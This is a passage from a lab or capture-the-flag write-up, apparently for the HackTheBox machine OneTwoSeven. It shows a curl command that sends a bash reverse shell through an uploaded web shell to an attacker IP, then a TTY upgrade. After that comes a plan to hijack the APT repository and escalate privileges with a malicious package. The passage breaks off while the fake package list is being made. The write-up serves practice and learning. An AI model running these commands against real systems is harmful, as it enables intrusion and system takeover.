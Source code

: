 Use the website [https://forum.ywhack.com/reverse-shell/](https://forum.ywhack.com/reverse-shell/) to generate a reverse shell payload:  

![[002 Attachment/Pasted image 20250722222300.png]]

Execute the following command on your local terminal to trigger the reverse shell connection:
```bash
curl -G http://localhost:60080/addons/shell.php --data-urlencode "pwn=bash -c 'sh -i >& /dev/tcp/10.10.16.12/4444 0>&1'"
```

![[002 Attachment/Pasted image 20250722223210.png]]

Once executed, the listener terminal will receive the reverse shell:  
![[002 Attachment/Pasted image 20250722223239.png]]

However, this shell isn’t very interactive. By checking the target machine, we see that Python is installed: 
![[002 Attachment/Pasted image 20250722223410.png]]


Use the following command to upgrade to a fully interactive TTY shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![[002 Attachment/Pasted image 20250722223520.png]]


# Privilege Escalation

Use the `sudo -l` command to check the current user's `sudo` privileges:  
![[002 Attachment/Pasted image 20250722224951.png]]

It shows that the current user can run the following commands without a password:
- `/usr/bin/apt-get update`
- `/usr/bin/apt-get upgrade`

Check the APT source configuration:  
![[002 Attachment/Pasted image 20250722225355.png]]

This means the system will try to download update packages from `packages.onetwoseven.htb`.

**We can perform an APT repository hijack and inject a malicious `.deb` package.**

Create the directory structure:
```
mkdir -p devuan/dists/ascii/main/binary-amd64/
```

Create a fake package list:
```
vim Packages
```
